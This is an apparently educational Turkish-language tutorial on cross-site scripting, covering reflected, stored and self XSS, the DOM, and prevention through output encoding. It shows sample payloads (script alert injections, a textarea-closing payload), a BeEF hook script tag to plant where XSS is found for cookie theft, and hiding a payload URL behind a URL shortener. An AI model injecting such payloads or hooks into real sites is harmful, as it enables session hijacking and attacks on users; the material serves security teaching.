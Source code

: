 # **0x08 | XSS hakkında herşey part 1**

## **XSS nedir?**

Açılımı cross site scripting'tir ve siteler arası betik çalıştırma olarak çevrilebilir. Xss, bir çeşit js enjeksiyonu gibi düşünülebilir. Bir web uygulamasının frontend 
kısmına yönelik bir saldırıdır.

## **XSS nerede bulunur?**

Browsera dönen response'un içeriğinde html, css ve js bulunur. Bir siber güvenlikçi perspektifiyle bakacak olursak bizim için js her zaman daha önemlidir. Çünkü js 
uygulamanın hareket kabiliyetini belirler. XSS, %99 ihtimalle browsera dönen response'un body'sinde bulunur. 

<img width="1153" height="581" alt="image" src="https://github.com/user-attachments/assets/06e5ce8c-241f-4345-b66c-14ce0efbed57" />

Arama kısmında "mehmet" şeklinde arama yapıldığında sayfada input görülebilmektedir. 

<img width="474" height="60" alt="image" src="https://github.com/user-attachments/assets/379af923-fee4-483c-a367-ac33d679c1bf" />

Sayfanın html'i incelendiğinde de aynı şekilde görülebilmektedir.

<img width="400" height="46" alt="image" src="https://github.com/user-attachments/assets/be6e3446-0980-4420-bf05-561b748b7e65" />

Browserdan web sunucusuna bir post reqesti gider ve requestte bulunan query string ya da post parametreleri ile arama kısmına yazılan içerik sunucuya ulaşır. Kullanıcının kontrol edebildiği bu mekanizma xss açığı barındırabilir. 

## **DOM(Document Object Model) Mimarisi**

Bir web sitesinde sayfayı incele kısmına tıklanıp görülen içerik ile sayfanın kaynak kodu arasında fark vardır. Çünkü sayfanın kaynak kodundaki içerik browser tarafından yorumlanmıştır. Kaynak kod kısmındaki js kodları browser'ın interpreter'ı tarafından çalıştırılmıştır ve bu js kodları DOM'un üstündeki hareketleri değiştirir. Http response'un içerisindeki html içerik, browser için bir inputtur ve bir hacker'ın amacı bu input'un içinde ufak manipülasyonlar yapmaktır. 

Site içerisinde bir arama kutusuna isim yazdınız ve url'de bu hale geldi.

```
www.x.com/?keyword=mehmet
```

Kaynak kodu ise bu hale.

```
<div id="content">
 <h2 id='pageName'>searched for: mehmet</h2>
</div>
```

Eğer biz isim yazdığımız yere bu şekilde bir js kodu yazarsak yazılımcının istemediği bir şey yapmış oluruz.

```
www.x.com/?keyword=<script>alert()</script>
```

Koda da bu şekilde yansır.

```
<div id="content">
 <h2 id='pageName'>searched for: <script>alert()</script></h2>
</div>
```

Browser, <script>alert()</script> kısmını çalıştırmaması gerektiğini anlayamaz ve js kodunu çalıştırır. İşte xss'in başladığı nokta burasıdır. 

## **Verilerin farklı ortamlardaki durumu**

Web uygulamasına girilen data, php interpreterında bir data olsa da browsera response olarak geri döndüğünde data artık tag olur ve bu xss'i doğurur. 

<img width="434" height="201" alt="image" src="https://github.com/user-attachments/assets/dcc0a012-53ac-40f8-9cc3-a2195f906f78" />

Neden sürekli <script>alert()</script> denendiği sebebine gelirsek. Bu, pop-up çalıştırmamızı ve zafiyetin tespit edilmesini sağlar. İşin sömürü kısmına gelecek olursak frontend kısmının bozulması, cookilerin ve sessionların çalınması gibi şeylere yol açar xss.

## **BEEF XSS exploitation framework**

BeEF, profesyonel penetrasyon test cihazının istemci taraflı saldırı vektörlerini kullanarak gerçek bir hedef güvenlik ortamını değerlendirebilmesini sağlayan bir framework'tür.

Beef'i çalıştırdıktan sonra terminalde çıkan 2 ip.

```
[*]  Web UI: http://127.0.0.1:3000/ui/panel
[*]  Hook: <script src="http://127.0.0.1:3000/hook.js"></script>
```

"<script>alert()</script>" ile xss'in tespit edildiği yerde "<script src="http://127.0.0.1:3000/hook.js"></script>" çalıştırıyoruz ve beef panelinde online browsers kısmında siteyi görüyoruz. Burdan sonra command kısmında gelip cookielerin çalınmasından sosyal mühendislik saldırılarına kadar pek çok şey yapılabilir.

## **Reflected XSS**

Şimdiye kadar anlatılan xss aslında reflected xss idi. Türkçesi yansıyan xss anlamına gelen bu zafiyet türü, requesti gönderen bir kişinin browser'ında gerçekleşir. Birçok kullanıcının request-response cycle'ı vardır ve bunlar birbirinden bağımsızdır. Bu yüzden de bir saldırgan reflected xss bulduğu zaman bu başka kullanıcılar tarafından görülmez. 

Url shortener sitesine aşağıdaki url'i verildiğinde

```
http://boylebirsiteyok/?keyword=<script>alert(1)</script>
```

böyle bir url'e dönüştürecektir.

```
https://shorturl.at/mh965
```

Bu url'e tıklayan bir kullanıcı, hedef websitesine gider ve giderken browser tüm cookieleri ekler.

## **Stored XSS**

Reflected xss'in web app'ten gelen response'ta olduğundan bahsetmiştik. Şimdi bundan daha kötü bir senaryodan bahsedeceğiz. Payload'ın db'e kaydedildiği durum yani stored xss. Hatta bu db'den faydalanan başka web servisleri ve app'ler bile bu durumdan etkilenebilir. Stored xss kalıcı olarak sitede bulunur ve başka kullanıcılar da bundan etkilenir. Örneğin bir forum sayfasında bir saldırgan yorum olarak xss payload'ı ekledi. Yorumu gören bütün site kullanıcıları bu xss saldırısına maruz kalır. 

## **Self XSS**

Bir banka uygulamasına adres bilgileri girildiğinde kod kısmında böyle gözüktüğünü varsayalım.

```
<html>
 <header></header>
 <body>
  <textarea>
   adres bilgileri...
  </textarea>
 </body>
</html>
```

Adres yerine xss payloadı yazıldığında text'e dönüşecektir bu yüzden payload'ı yazarken <textarea> tag'i kapatılmalı. 

```
 <body>
  <textarea>
   </textarea><script>alert(1)</script>
  </textarea>
 </body>
```

Bu uygulamada kullanıcının kendisinden başka kimse adresini göremez. Dolayısıyla xss'i de kimse göremez yani bu bir self xss zafiyetidir. Self xss zafiyetini sömürmek için sosyal mühendislik gerekir.

## **XSS nasıl engellenir?**

Xss html ile birleşilen output'un verildiği yerde engellenir. Çünkü zafiyet oluştuğu yerde engellenmeli. Input validation ile form alanındaki taglerin gelmesi engellense bile uygulamaya başka yerlerden gelen inputlar yüzünden xss yine ortaya çıkacaktır. Bu yüzden tedbir alırken bütüncül yaklaşmak faydalı olacaktır.

